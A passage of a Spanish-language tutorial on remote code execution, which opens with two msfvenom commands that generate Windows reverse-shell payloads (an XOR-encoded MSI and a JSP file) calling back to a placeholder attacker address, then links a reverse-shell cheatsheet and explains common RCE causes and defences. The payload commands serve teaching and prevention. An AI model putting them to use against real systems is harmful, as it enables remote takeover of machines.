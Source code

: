 ```
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=<local-ip> LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out exploit.msi  # MSI file
```

```
msfvenom -p windows/shell_reverse_tcp lhost=<local-ip> lport=PORT -f jsp -o revshell.jsp  # JAVA file
```

Si quereis saber más a cerca de estos payloads podeis mirar la siguiente cheatsheet el cual es una de las mejores actualmente en cuanto a reverse shells:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php

# __How to prevent RCE__

Para que un atacante realice un ataque RCE, el sistema objetivo debe tener una vulnerabilidad preexistente para que este la aproveche. Varias vulnerabilidades podrían abrir la puerta a un ataque RCE, demasiadas para nombrarlas. Sin embargo, los siguientes tipos de vulnerabilidades son los más utilizados para perpetrar ataques RCE:

## __Unsanitized user input__

Si nuestro sitio web/aplicación permite la entrada del usuario sin tener implementadas las medidas de desinfección adecuadas, estaremos abriendo la puerta a todo tipo de comportamiento no intencional en nombre de nuestro servidor, como la ejecución de código arbitrario. No podemos confiar en la entrada del usuario, nunca. Este punto también se relaciona con la type confusion, que se explica a continuación.

## __Broken authentication__

Si las funciones de autenticación y administración de sesiones de nuestro sitio web/aplicación se implementan incorrectamente, los atacantes podrían comprometer contraseñas, claves o tokens de sesión. También podrían intentar explotar otras vulnerabilidades para asumir las identidades de otros usuarios con permisos potencialmente confidenciales. Una vez que el atacante está dentro, podría ejecutar código arbitrario y posiblemente apoderarse de nuestro servidor con los permisos adecuados.

## __Poor access control__

Access control lists (ACL) limitan los permisos de los usuarios a solo aquellos que son necesarios para que completen su trabajo. Sin los permisos debidamente segmentados, en el caso de que un atacante secuestra una cuenta de usuario que tiene privilegios de root, el daño que podría causar el atacante es considerable.

## __Buffer overflows__

Debido a que el buffer constituye una cantidad fija de RAM, las medidas de verificación de límites deben escribirse en el código para garantizar que no se exceda la capacidad del mismo. Si no existen estas medidas la cantidad de datos escritos en el buffer podría exceder su capacidad. Estos pueden destruir datos esenciales, bloquear el sistema y sobrescribir ubicaciones de memoria con código arbitrario (malware) que el sistema ejecutaría posteriormente.
